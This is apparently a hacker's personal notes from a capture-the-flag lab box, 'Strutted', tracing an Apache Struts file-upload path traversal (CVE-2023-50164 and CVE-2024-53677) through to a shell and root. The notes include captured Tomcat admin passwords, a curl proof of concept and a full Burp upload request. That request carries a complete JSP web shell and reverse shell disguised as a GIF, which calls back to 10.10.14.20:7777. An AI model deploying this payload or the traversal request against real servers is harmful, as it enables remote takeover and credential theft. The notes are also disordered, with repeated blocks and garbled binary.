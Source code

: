 ___


</div> <form id="upload" name="upload" action="[/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6](view-source:http://strutted.htb/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6)" method="post" enctype="multipart/form-data"> <div class="mb-3 file-group"> <label for="upload" class="form-label">Choose an image to upload:</label> <input type="file" name="upload" id="upload" class="form-control"/> </div> <div class="d-grid"> <input type="submit" value="Upload" id="upload_0" class="btn btn-primary"/> </div> </form>

*this is post endpoint for file upload*

/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6

nginx is being used as a reverse proxy

apache tomcat is the actual server running the java app

jsessionid being passed in url -> can i fuzz it?? is there a format for them idk

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
*tomcat gui creds*
<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat


  <CookieProcessor className="org.apache.tomcat.util.http.Rfc6265CookieProcessor"




*I think this the CVE*

https://cloudsecurityalliance.org/blog/2024/03/06/cybersecurity-advisory-apache-struts-vulnerability-cve-2023-50164


# Cybersecurity Advisory: Apache Struts Vulnerability CVE-2023-50164


*this docker container image of tomcat is vulnerable to rce with that CVE*

https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker/blob/main/context.xml

*this is what i used*
https://github.com/snyk-labs/CVE-2023-50164-POC

*POC*

```
curl \
http://localhost:9999/struts-vuln-poc/upload.action \
-F "Upload=@./payload/rogue.jsp" \
-F "uploadFileName=../src/main/webapp/rogue.jsp"
```


*gif file top*
GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎ¿ld]ÒÎÊ¨zfjS¾®zRÌ¡ÆizýûüTU[rV<öô÷+&0



*this is the absolute path of the webapp*


/usr/local/tomcat/webapps/ROOT/


*this file path?*
../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/files.gif


WEB-INF/upload.jsp


*this is where files get uploaded*
http://strutted.htb:8080/uploads/20250805_225944/files.gif



*imma keep looking*

*this is the version of struts in library*
struts2-core-6.3.0.1.jar vulnerabilities



# CVE-2023-50164

#CVE-2024-53677 -> newer one 
this should b the cve


*I am using the fileUpload Interceptor so the last CVE should work*

root@7b1b5932499a:/usr/local/tomcat/webapps/ROOT/WEB-INF/classes# cat struts.xml | grep -i interceptor
            <interceptor-ref name="fileUpload">
            </interceptor-ref>
            <interceptor-ref name="defaultStack"/>




*now I need to bypass validation checks and upload jsp for rev shell*


THIS WORKED ON BURP GOT DIRECTORY TRAVERSAL
# holly fuck I got it!!!!!!!!!!!!!!!!!!!!

POST /upload.action HTTP/1.1
Host: strutted.htb:8080
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Length: 577

------WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Disposition: form-data; name="Upload"; filename="file.gif"
Content-Type: image/gif

GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎÂ¿ld]ÃÃÃÂ¨zfÂjSÂ¾ÂÂÂ®zRÃÂ¡ÂÃÂizÂÂÃ½Ã»Ã¼TU[rV<Ã¶Ã´Ã·+&0
------WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Disposition: form-data; name="uploadFileName"

../../file.gif
------WebKitFormBoundaryq8xuqupv9fo4psw6--



*magic file number*
GIF89aÜ


*java web 2 way from rev shells worked!!!*








# full burp post request

POST /upload.action HTTP/1.1
Host: strutted.htb:80
User-Agent: Mozilla/5.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Length: 3850

------WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Disposition: form-data; name="Upload"; filename="file.gif"
Content-Type: image/gif

GIF89aÜ <%
    /*
     * Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.
     * If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.
     * Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing 
     * the command specified in the HTML form). This is to avoid to keep it simple.
     */
%>

<%@page import="java.lang.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
<%@page import="java.util.*"%>

<html>
<head>
    <title>jrshell</title>
</head>
<body>
<form METHOD="POST" NAME="myform" ACTION="">
    <input TYPE="text" NAME="shell">
    <input TYPE="submit" VALUE="Send">
</form>
<pre>
<%
    // Define the OS
    String shellPath = null;
    try
    {
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
            shellPath = new String("/bin/sh");
        } else {
            shellPath = new String("cmd.exe");
        }
    } catch( Exception e ){}
    // INNER HTML PART
    if (request.getParameter("shell") != null) {
        out.println("Command: " + request.getParameter("shell") + "\n<BR>");
        Process p;
        if (shellPath.equals("cmd.exe"))
            p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));
        else
            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
            out.println(disr);
            disr = dis.readLine();
        }
    }
    // TCP PORT PART
    class StreamConnector extends Thread
    {
        InputStream wz;
        OutputStream yr;
        StreamConnector( InputStream wz, OutputStream yr ) {
            this.wz = wz;
            this.yr = yr;
        }
        public void run()
        {
            BufferedReader r  = null;
            BufferedWriter w = null;
            try
            {
                r  = new BufferedReader(new InputStreamReader(wz));
                w = new BufferedWriter(new OutputStreamWriter(yr));
                char buffer[] = new char[8192];
                int length;
                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )
                {
                    w.write( buffer, 0, length );
                    w.flush();
                }
            } catch( Exception e ){}
            try
            {
                if( r != null )
                    r.close();
                if( w != null )
                    w.close();
            } catch( Exception e ){}
        }
    }
 
    try {
        Socket socket = new Socket( "10.10.14.20", 7777 ); // Replace with wanted ip and port
        Process process = Runtime.getRuntime().exec( shellPath );
        new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();
        new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();
        out.println("port opened on " + socket);
     } catch( Exception e ) {}
%>
</pre>
</body>
</html>
------WebKitFormBoundaryq8xuqupv9fo4psw6
Content-Disposition: form-data; name="uploadFileName"

../../file.jsp
------WebKitFormBoundaryq8xuqupv9fo4psw6--





<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
--->
<!--

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages



*whats this*
    <!-- Define an AJP 1.3 Connector on port 8009 -->
    <!--
    <Connector protocol="AJP/1.3"
               address="::1"
               port="8009"
               redirectPort="8443" />
    -->



james:x:1000:1000:Network Administrator:/home/james:/bin/bash


sudo -l

*root was super easy*



